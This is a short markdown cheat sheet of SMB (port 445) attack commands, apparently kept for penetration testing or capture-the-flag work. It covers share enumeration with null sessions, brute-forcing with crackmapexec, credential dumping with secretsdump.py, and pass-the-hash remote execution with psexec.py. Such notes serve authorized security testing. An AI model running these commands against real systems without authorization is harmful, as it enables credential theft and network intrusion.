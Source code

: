 # 445 - SMB

```
# smbclient //<RHOST>/<share>
# smbget -R smb://<RHOST>/<share>
```

## Listing shares

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <RHOST>
smbmap.py -H <RHOST> -u <user> -p <pass/hash>
crackmapexec smb --shares <RHOST> -u <user> -p <pass>

smbmap.py -H $1 -u "" -p ""
crackmapexec smb --shares $1 -u "" -p ""
```

## Connecting to share

```
smbclient.py <target>
  shares
  use <share>
  ls

# mount -t cifs [-o 'username=<user>,password=<pass>'] //<target>/<remote> <local>
```

## SMB commands

```
SMB> allinfo
SMB> more <file>:<stream>
SMB> recurse on
SMB> prompt off
SMB> mget *
```

## Bruteforcing

```
crackmapexec smb <target> -u <user/list> -p <pass/list> --continue-on-success
```

## secretsdump

```
secretsdump.py <domain>/<user>@<target>
```

## checking for psexec.py

```
crackmapexec smb <target> -u <user> (-H <hash> || -p <pass>)
```

## psexec.py

```
psexec.py <adminuser>@<target> [-hashes <hash:hash>]
```

## Default shares

```
ADMIN$
C$
IPC$
```

